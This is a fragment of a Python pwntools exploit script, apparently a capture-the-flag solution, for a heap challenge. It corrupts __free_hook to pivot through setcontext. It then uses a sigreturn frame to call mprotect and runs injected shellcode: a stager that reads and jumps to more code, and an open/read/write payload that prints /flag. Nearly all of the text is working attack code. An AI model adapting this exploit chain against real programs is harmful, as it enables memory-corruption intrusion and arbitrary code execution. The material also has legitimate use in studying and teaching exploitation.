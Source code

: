 		#dbg()
	
		add(0x48)#6
		
		#dbg()
	
		new_addr =  free_hook &0xFFFFFFFFFFFFF000
		shellcode1 = '''
		xor rdi,rdi
		mov rsi,%d
		mov edx,0x1000
	
		mov eax,0
		syscall
	
		jmp rsi
		''' % new_addr
		edit(6, 'a'*0x10+p64(set_context+53)+p64(free_hook+0x18)*2+asm(shellcode1))
	
		#dbg()
	
		frame = SigreturnFrame()
		frame.rsp = free_hook+0x10
		frame.rdi = new_addr
		frame.rsi = 0x1000
		frame.rdx = 7
		frame.rip = libc.sym['mprotect']
		edit(12, str(frame))
		free(12)
		#dbg() 
	
		shellcode2 = '''
		mov rax, 0x67616c662f ;// /flag
		push rax
	
		mov rdi, rsp ;// /flag
		mov rsi, 0 ;// O_RDONLY
		xor rdx, rdx ;
		mov rax, 2 ;// SYS_open
		syscall
	
		mov rdi, rax ;// fd 
		mov rsi,rsp  ;
		mov rdx, 1024 ;// nbytes
		mov rax,0 ;// SYS_read
		syscall
	
		mov rdi, 1 ;// fd 
		mov rsi, rsp ;// buf
		mov rdx, rax ;// count 
		mov rax, 1 ;// SYS_write
		syscall
	
		mov rdi, 0 ;// error_code
		mov rax, 60
		syscall
		'''
		sl(asm(shellcode2))
		
	
		dbg()
		itr()
	 
	 
	pwn()


